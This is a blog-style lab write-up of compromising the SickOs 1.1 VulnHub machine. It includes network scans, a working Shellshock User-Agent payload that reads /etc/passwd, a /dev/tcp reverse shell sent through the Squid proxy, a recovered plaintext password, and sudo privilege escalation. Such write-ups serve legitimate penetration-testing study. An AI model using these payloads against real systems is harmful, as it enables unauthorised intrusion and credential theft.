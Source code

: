 ```yaml
---
layout: post
title: "sickos:1.1"
date: 2016-05-18 12:50:37 -0500
comments: true
categories: [vulhub, squid]
---
```



From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Metasploit
* FoxyProxy

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/sickos/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.178 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.178 -p-`

{% img  /images/blog/vulhub/sickos/Selection_002.png   [title manually exploit [alt text]] %}

Looks like port 22 and port 3218 are openning. the port 3218 is running Squid. open msfconsole, search squid. I found that:

{% img  /images/blog/vulhub/sickos/Selection_003.png   [title manually exploit [alt text]] %}

Then use this module to scan the squid service:

{% img  /images/blog/vulhub/sickos/Selection_004.png   [title manually exploit [alt text]] %}

Looks like port 80 is opened:

{% img  /images/blog/vulhub/sickos/Selection_005.png   [title manually exploit [alt text]] %}

Use FoxyProxy add-on to configure proxy:

{% img  /images/blog/vulhub/sickos/Selection_006.png   [title manually exploit [alt text]] %}

now visit http://192.168.79.178

{% img  /images/blog/vulhub/sickos/Selection_007.png   [title manually exploit [alt text]] %}

now let's use nikto to scan the server:

```
nikto -h localhost -useproxy http://192.168.79.178:3128
```

{% img  /images/blog/vulhub/sickos/Selection_008.png   [title manually exploit [alt text]] %}

looks like there is a shellshock vuln


Let's test it:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

{% img  /images/blog/vulhub/sickos/Selection_009.png   [title manually exploit [alt text]] %}

It works and looks  there is an account sickos.

Now lets setup reverse shell. 

netcat-style shell access without netcat:

`/bin/bash -i > /dev/tcp/[yourip]/[port] 0<&1`


in one terminal:

`nc -nlvp 4444`

in another terminal:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/bash -i > /dev/tcp/192.168.79.173/4444 0<&1" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

get the shell:


{% img  /images/blog/vulhub/sickos/Selection_010.png   [title manually exploit [alt text]] %}


After Enumeration, got a interesting file: `/var/www/wolfcms/config.php`

{% img  /images/blog/vulhub/sickos/Selection_011.png   [title manually exploit [alt text]] %}


Looks like the password is `john@123`

SSH to the target server as sickos and use this password:


{% img  /images/blog/vulhub/sickos/Selection_012.png   [title manually exploit [alt text]] %}



Check sickos's privilege:

`sudo -l`

{% img  /images/blog/vulhub/sickos/Selection_013.png   [title manually exploit [alt text]] %}

Looks like it can run as root


{% img  /images/blog/vulhub/sickos/Selection_014.png   [title manually exploit [alt text]] %}


YES
